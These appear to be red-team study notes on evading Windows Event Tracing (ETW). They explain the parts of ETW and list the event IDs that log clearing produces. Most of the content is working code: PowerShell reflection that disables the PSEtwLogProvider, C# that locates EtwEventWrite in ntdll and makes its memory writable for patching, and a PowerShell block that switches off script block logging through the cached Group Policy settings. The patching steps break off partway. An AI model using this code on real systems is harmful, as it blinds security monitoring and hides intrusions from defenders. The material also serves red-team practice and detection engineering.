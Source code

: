 
In Windows, nearly all event logging is done by **ETW** (Event Tracing for Windows).
The general method these events are logged are:
```
Device --> Event collector/forwarder --> Data Indexer --> SIEM Server
```

ETW is made up of three main parts:

| Component | Function | Exploit techniques |
| ---- | ---- | ---- |
| Provider | A program with logging tools. After a provider registers, the Controller can enable it, (usually) starting logging. (in some cases, it will log whether it is enabled or not, because the Provider can decide what "enabled" and "disabled" mean for itself.) | PSEtwLogProvider Modification, Group Policy Takeover, Log Pipeline Abuse, Type Creation |
| Controller | Control the starting and stoping of the logging sessions, the location and size of the log files, enable providers to log to the session, obtain execution statistics for sessions. | Patching EtwEventWrite, Runtime Tracing Tampering, |
| Consumers | The tool used to interpret events, usually Microsoft's Event Viewer | Log Smashing, Log Tampering |



#### Aggresive approach - log smashing
Generally, Windows logs can be removed or destroyed. For this approach to work when red teaming, they need to be destroyed before they are (potentially) forwarded to a SIEM server.
The big drawback to this approach is that the action removing logs will generate logs, meaning the SOC team will be able to see the logs were tampered with.
##### Created events
| ID | event |
| ---- | ---- |
| 1102 | The Windows Security Audit log was cleared |
| 104 | The time when the log file was cleared |
| 1100 | The time when the Windows Event Log service was shut down |

### Powershell 
When powershell starts, a `.net` assembly provider pack `PSEtwLogProvider` is loaded. The `.net` assembly provider packs are basically `.net` DLLs.
Because the permissions powershell is loaded with are the same as most permissoins of the `.net` assembly provider packs are loaded with, the same user who spawned the powershell session can disable the providers.
To do this, `m_enabled` needs to be set to `$null`, in three steps:
- Obtain the `.NET` assembly for the `PSEtwLogProvider`
```powershell
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
```
- Store a null value for the `etwProvider` field
  ```powershell
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```
- Set the field for `m_enabled` to the previously stored `$null`
  ```powershell
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

### Patching tracing functions
When any process is created, the ETW is loaded (usually from the Common Language Runtime). Within the process, ETW events will be sent and issued from the current process.
If an "early return" is patched into the main ETW function of the process, it can be disabled. 

At a high level, ETW patching follows these steps:
- Obtain a handle for `EtwEventWrite`
The `EtwEventWrite` function is stored in `ntdll`.  To get this, the `LoadLibrary` function needs to be used to load `ntdll`, and the `GetProcAddress` can be used to get the handle.
```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

- Modify memory permissions of the function
  To access the target memory, it needs to be writable. For this, it needs to be loaded using `Virtualprotect`, with the `0x40` (RWX) permissions set:
```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```







```powershell
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```